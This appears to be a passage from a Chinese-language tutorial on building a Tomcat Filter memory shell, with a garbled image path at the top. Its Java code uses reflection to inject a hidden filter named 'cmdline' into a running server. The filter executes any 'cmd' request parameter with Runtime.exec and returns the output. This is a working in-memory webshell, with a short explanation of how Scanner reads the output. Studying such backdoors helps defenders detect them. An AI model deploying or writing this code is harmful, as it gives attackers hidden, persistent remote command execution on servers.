 ```java
String FilterName = "cmdline";
            Configs = standardContext.getClass().getDeclaredField("filterConfigs");
            Configs.setAccessible(true);
            //赋值给filterConfigs并强转换
            filterConfigs = (Map) Configs.get(standardContext);;
            //反射获取filterConfigs
            //如果有自定义的那个FilterName
            if(filterConfigs.get(FilterName)==null){
                Filter filter = new Filter() {
                    @Override
                    public void init(FilterConfig filterConfig) throws ServletException {

                    }

                    @Override
                    public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
                        //命令执行
                        HttpServletRequest hsreq = (HttpServletRequest) request;//强转HttpServletRequest
                        if (hsreq.getParameter("cmd")!=null){//cmd传参
                            InputStream inputStream = Runtime.getRuntime().exec(hsreq.getParameter("cmd")).getInputStream();
                            Scanner scanner = new Scanner(inputStream).useDelimiter("\\A");
                            String output = scanner.hasNext() ? scanner.next() : "";
                            response.getWriter().write(output);
                            return;
                        }
                        chain.doFilter(request, response);
                        }
                    }

                    @Override
                    public void destroy() {

                    }
                };
            }
```

方法解读：`Scanner.useDelimiter()`

Scanner通过用户回车进行读取IO流,然后扫描是否有分隔符,如果没有,那么继续等待下一段IO流.

加深解析:IO流是流行的,不是一次性全部丢进去,默认Scanner使用空格分隔符,回车后扫描到第一个空格,那么就只获取IO流的第一个空格前的字符,这里我们设置了\\A,那么永远都弄不到分隔符,使用Ctrl+z  强行EOF关闭输入流,那么\\A从字符串头开始匹配,直接获取了从头到尾所有的字符.

`hasNext()`表示是否还有输入的数据

这里的三目运算，也可以理解了。最后将返回信息写入response中。

反射获取FilterDef和FilterMap部分

```java
//反射获取FilterDef
Class<?> FilterDef = Class.forName("org.apache.tomcat.util.descriptor.web.FilterDef");
Constructor declaredConstructor = FilterDef.getDeclaredConstructor();//获取所有构造方法
FilterDef o = (FilterDef) declaredConstructor.newInstance();
o.setFilter(filter);
o.setFilterName(FilterName);
o.setFilterClass(filter.getClass().getName());
standardContext.addFilterDef(o);
//反射获取FilterMaps
Class<?> FilterMap = Class.forName("org.apache.tomcat.util.descriptor.web.FilterMap");
Constructor<?> filterMapDeclaredConstructor = FilterMap.getDeclaredConstructor();
FilterMap o1 = (FilterMap) filterMapDeclaredConstructor.newInstance();
```